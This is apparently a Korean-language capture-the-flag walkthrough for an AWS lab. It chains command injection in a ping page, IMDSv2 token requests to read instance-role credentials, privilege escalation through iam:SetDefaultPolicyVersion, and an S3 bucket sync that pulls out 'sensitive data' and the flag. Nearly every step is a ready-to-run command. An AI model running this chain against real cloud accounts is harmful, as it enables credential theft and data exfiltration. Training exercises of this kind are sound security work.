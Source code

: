 # [SCENARIO NAME] Walkthrough

1. 웹사이트에 RCE취약점이 발생하는 것을 확인하세요. 단순한 ping test화면 같지만 command injection을 통해 RCE가 발생하게 됩니다.
```bash
; ls
```

2. 인스턴스에서 IMDSv2를 사용하기 때문이 이를 이용하기 위한 토큰을 발급한 후 메타데이터서비스에 접근한다
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```

3. 메타데이터서비스를 통해 인스턴스에 할당된 역할을 확인할 수 있다.
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/policy-rollback-rce-ec2-role
```

4. 얻은 자격증명을 자신의 프로필에 등록해준다
```bash
aws configure --profile rce_server
```

5. 해당 역할의 상세 정보를 먼저 확인한다
```bash
aws sts get-caller-identity --profile rce_server
```
- 이를 통해 역할의 arn과 이름정보를 확인할 수 있다.

6. 역할에 연결된 정책을 확인해본다.
```bash
aws iam list-attached-role-policies --role-name <역할 이름> --profile rce_server
```
해당 역할에 연결된 s3manager라는 이름의 정책 이름을 확인할 수 있다.

7. 정책의 버전을 확인해본다.
```bash
aws iam-get-policy --policy-arn <정책의 arn> --profile rce_server
```
정책의 버전이 현재 v1인것을 확인할 수 있다.

8. 현재 정책 버전의 권한을 확인해본다.

```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v1
```
현재 버전에 `iam:SetDefaultPolicyVersion`이 존재하는 것을 확인 -> 다른 버전의 정책으로 교체 가능

9. 다른 버전의 정책을 확인해본다.
```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```
v2의 정책에 s3관련 권한이 모두 할당되있는 것을 확인할 수 있다.

10. v2의 정책으로 교체해준다.
```bash
aws iam set-default-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```

11. S3에 접근이 가능해졌고 기밀데이터를 유출한다.
```bash
aws s3 ls

aws s3 ls s3://policy-rollback-rce-sensitive-data --profile rce_server

aws s3 sync s3://policy-rollback-rce-sensitive-data ./ --profile rce_server
```
flag.txt를 받아올 수 있다.

`flag` : FLAG{pO1iCy_rollb4CK_rcE_5uCCeS5}